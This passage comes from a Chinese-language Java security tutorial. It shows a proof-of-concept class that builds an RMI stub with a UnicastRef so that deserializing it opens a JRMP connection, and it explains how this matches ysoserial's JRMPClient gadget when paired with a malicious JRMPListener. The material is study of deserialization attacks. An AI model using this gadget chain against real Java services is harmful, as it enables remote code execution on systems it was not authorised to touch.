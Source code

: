 ```java
public class RemoteObject1 {

	public static void main(String[] args) throws Exception {

		String host = "127.0.0.1";
		int    port = 12233;

		ObjID       id  = new ObjID(new Random().nextInt()); // RMI registry
		TCPEndpoint te  = new TCPEndpoint(host, port);
		UnicastRef  ref = new UnicastRef(new LiveRef(id, te, false));

		RMIServerImpl_Stub stub = new RMIServerImpl_Stub(ref);

		//  ysoserial 中使用 RemoteObjectInvocationHandler
//		RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
//		Registry proxy = (Registry) Proxy.newProxyInstance(RemoteObject1.class.getClassLoader(), new Class[]{Registry.class}, obj);

		SerializeUtil.writeObjectToFile(stub);
		SerializeUtil.readFileObject();
	}
}
```

`ysoserial`使用`RemoteObjectInvocationHandler`的代理类作为反序列化的入口点, 相当于是`UnicastRef`的延长链. 这部分对应的就是`ysoserial.payloads.JRMPClient`这个`gadget`, 恶意服务端可以结合`ysoserial.exploit.JRMPListener`来使用.

##  5. <a name='-1'></a>参考链接
- [Java RMI 攻击由浅入深](https://su18.org/post/rmi-attack/)

- [Java 安全-RMI-学习总结](https://paper.seebug.org/1251/#java-rmi-)